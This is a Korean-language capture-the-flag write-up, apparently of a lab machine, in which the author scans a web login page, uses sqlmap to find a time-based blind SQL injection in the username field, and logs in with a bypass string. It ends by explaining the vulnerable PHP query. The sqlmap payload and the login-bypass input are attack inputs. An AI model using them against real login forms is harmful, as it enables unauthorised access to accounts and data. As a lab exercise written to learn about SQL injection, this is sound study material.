


대상 서버에서 동작하는 서비스에 대해 먼저 알아보자. 

``` shell
 read-min 🇰   ~  nmap 10.129.198.242 -sV -sC
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 14:07 KST
Nmap scan report for 10.129.198.242
Host is up (0.26s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE     VERSION
80/tcp    open     http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```

gobuster를 위한 wordlist는 아래 경로에서 다운로드 했다.

> https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt

gobuster로 스캔한 결과는 아래와 같다. 유의미한 결과가 있지는 않은 것 같다.
``` bash
# gobuster dir -u http://10.129.198.242 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.198.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 4896]
/images               (Status: 301) [Size: 317] [--> http://10.129.198.242/images/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.198.242/js/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.198.242/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.198.242/fonts/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.198.242/vendor/]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

그렇다면 80 port에 직접 브라우저로 접근 시 아래와 같이 로그인 화면이 나온다. SQL Injection을 통해 로그인하라는 내용 같다.


바로 간단한 구문을 테스트해도 되지만, 다양한 툴을 접해보는 것도 목적이기에 sqlmap 툴을 사용해봤다.

``` bash
# sqlmap -u "http://10.129.198.242/" --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:03:22 /2024-02-04/

[06:03:22] [INFO] testing connection to the target URL
[06:03:22] [INFO] checking if the target is protected by some kind of WAF/IPS
[06:03:23] [INFO] testing if the target URL content is stable
[06:03:23] [INFO] target URL content is stable
[06:03:23] [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--forms --crawl=2'

[*] ending @ 06:03:23 /2024-02-04/
```

Critical의 내용과 같이 옵션을 추가해서 다시 진행하였다. 아래와 같이 취약점이 존재한다는 결과에 대해 확인이 가능하다.

``` shell
# sqlmap -u "http://10.129.198.242/" --batch --forms --crawl=2
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:03:50 /2024-02-04/

do you want to check for the existence of site's sitemap(.xml) [y/N] N
[06:03:50] [INFO] starting crawler for target URL 'http://10.129.198.242/'
[06:03:50] [INFO] searching for links with depth 1
[06:03:51] [INFO] searching for links with depth 2
please enter number of threads? [Enter for 1 (current)] 1
[06:03:51] [WARNING] running in a single-thread mode. This could take a while
do you want to normalize crawling results [Y/n] Y
do you want to store crawling results to a temporary file for eventual further processing with other tools [y/N] N
[1/1] Form:
POST http://10.129.198.242/
POST data: username=&password=&remember-me=on

...skip...

[06:04:45] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[06:04:45] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 96 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=pMzq' AND (SELECT 6086 FROM (SELECT(SLEEP(5)))HBmG) AND 'UXcN'='UXcN&password=JaMC&remember-me=on
---
```

취약점 존재 여부에 대해선 확인하였으니 아래와 같이 로그인을 수행할 수 있다.

> username: admin   / pw: 1' or''=' 

로그인 시 아래와 같이 정답 flag가 노출된다.



---

문제에 대한 풀이는 끝났지만, SQL Injection에 대해 추가적으로 알아보고자 아래에 추가적으로 정리한 내용이다. 우선 공격에 사용된 코드를 통해 서버 측에서는 받아온 입력 값을 그대로 db 쿼리에 사용하고 있음을 알 수가 있다. 대략적인 php 코드는 아래와 같을 것이다.

``` php
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
``` 

이러한 상태에서 위 공격 구문을 대입하면 아래와 같은 형태로, `''=''`은 true가 되므로 password는 항상 참의 값이 된다.

``` php
"SELECT * FROM users WHERE username='$username' AND password='1' or''=''"
```

SQL Injection은 실제 탐지한 경험이 없다보니, 많이 낯선 영역 같다. 이 쪽을 좀 더 많이 해봐야겠다.


